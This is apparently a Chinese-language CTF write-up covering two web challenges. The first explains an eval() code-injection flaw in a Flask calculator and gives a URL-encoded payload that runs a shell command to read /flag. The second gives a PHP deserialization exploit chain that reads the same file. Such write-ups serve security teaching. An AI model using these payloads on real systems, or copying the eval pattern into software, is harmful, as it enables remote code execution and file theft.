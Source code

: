 ```yaml
---
title: NEUQCSA11月月赛web-wp
date: 2019-11-18 17:40:46
categories: CTF
tags: [writeup,反序列化,代码注入]
---
```

## web1
这道题原本是兰州大学校赛的题目,比较有意思的是这是一个真实的项目，并且作者部署了一个demo。最初我测试的时候demo应该是有一个waf的，后来不知道为什么没有了，直接可以rce，已经跟作者反映过了

* 在右上角点Fork me on Github就可以访问到该项目的github主页，得到源码。看看app.py
```python
# -*- coding: utf-8 -*-
"""
    Calculator

    A simple Calculator made by Flask and jQuery.

    :copyright: (c) 2015 by Grey li.
    :license: MIT, see LICENSE for more details.
"""
import re #导入python的正则表达式模块
from flask import Flask, jsonify, render_template, request
# 导入flask的一些模块

app = Flask(__name__) #实例化了一个Flask类


@app.route('/_calculate') #设置了一个路由，也就是如果访问了/_calculate，就会执行下面的calculate函数
def calculate():
    a = request.args.get('number1', '0') #获得number1这个get参数,如果没有该参数则a设为0，下面的两行也是类似的
    operator = request.args.get('operator', '+')
    b = request.args.get('number2', '0')
    m = re.match('-?\d+', a) #使用正则表达式进行匹配，这个正则的意思是匹配0个或1个负号加上1个或多个数字
    n = re.match('-?\d+', b)
    # 如果m没有匹配到东西或者n不是4中操作符的话就返回一个错误
    if m is None or n is None or operator not in '+-*/':
        return jsonify(result='I Catch a BUG!')
    #进行计算
    if operator == '/':
        result = eval(a + operator + str(float(b)))
    else:
        result = eval(a + operator + b)
 # eval函数会执行把参数当作代码进行执行，是一个非常危险的函数
 #这里是想执行类似123+123这样的表达式
    return jsonify(result=result) #把计算的结果以返回回去


@app.route('/') #另一个路由，访问/时会执行下面的index函数
def index():
    return render_template('index.html') #渲染模板文件，其实就是显示了那个计算器的页面


if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0') #启动flask
```
* 代码中添加了注释，可以对照注释理解一下代码
* 显然这里是要利用eval去执行我们想要的python代码，而这有几个阻碍:
    1. 正则表达式的匹配
    ```python
    m = re.match('-?\d+', a) #使用正则表达式进行匹配，这个正则的意思是匹配0个或1个负号加上1个或多个数字
    n = re.match('-?\d+', b)
    # 如果m没有匹配到东西或者n不是4中操作符的话就返回一个错误
    if m is None or n is None or operator not in '+-*/':
        return jsonify(result='I Catch a BUG!')
    ```
    * 仔细阅读代码可以发现后面带进eval的是变量a和b,因此只要匹配成功就可以带进eval
    * 本地尝试一下下面的几个例子可以发现只要是以数字开头的字符串都可以匹配成功，带进eval里执行
    ```python
    re.match('-?\d+','123')
    re.match('-?\d+','abc')
    re.match('-?\d+','123abc')
     re.match('-?\d+','abc123')
    ```
    2. 数字开头怎么执行代码
    可以使用逗号表达式,比如
    ```python
     eval('123,print("wxynb!")')
    ```
    会输出
    >wxynb!
    (123, None)

    3. 类型转换问题 
    因为a和b之间还有一个运算符operator,所以会报错。
    可以在a那里把operator和b注释掉
    ```python
    eval('123,print(123)'+'+'+'123')
    #报错TypeError: unsupported operand type(s) for +: 'NoneType' and 'int'
    eval('123,print(123)#'+'+'+'123')
    #加了一个注释符#，成功执行
    ```

* python执行系统命令,用于读flag
```python
''.join(__import__('os').popen('cat /flag').readlines())
```
* 最后的payload(url编码后):
```
?number1=123%2C%27%27.join%28__import__%28%27os%27%29.popen%28%27cat%20%2fflag%27%29.readlines%28%29%29%23&operator=/&number2=123
```

## web2
耿佬嫖来的题,难度比较大
### 预期解
.....此处省略一千字
### 非预期解
1. 复制其中代码，百度搜索(没错是百度搜到的。。),打开第一个结果https://www.cnblogs.com/BOHB-yunying/p/11839385.html
2. 代码几乎一样,只要把最后的exp改动一下即可
```php
<?php
class Read {
    private $var="/flag";
    //文章中的是public
}
 
class Show
{
    public $source;
    public $str;
}
 
class Test
{
 
    public $params; //文章中叫$p
}
$a=new Show();
$a->source=$a; //触发__toString
$a->str['str']=new Test();
$a->str['str']->params=new Read(); //这里也要把$p改成$params
echo urlencode(serialize($a)); 
```
* 这题具体的原理部分可以看看查到的那篇文章，或者问万能的耿佬
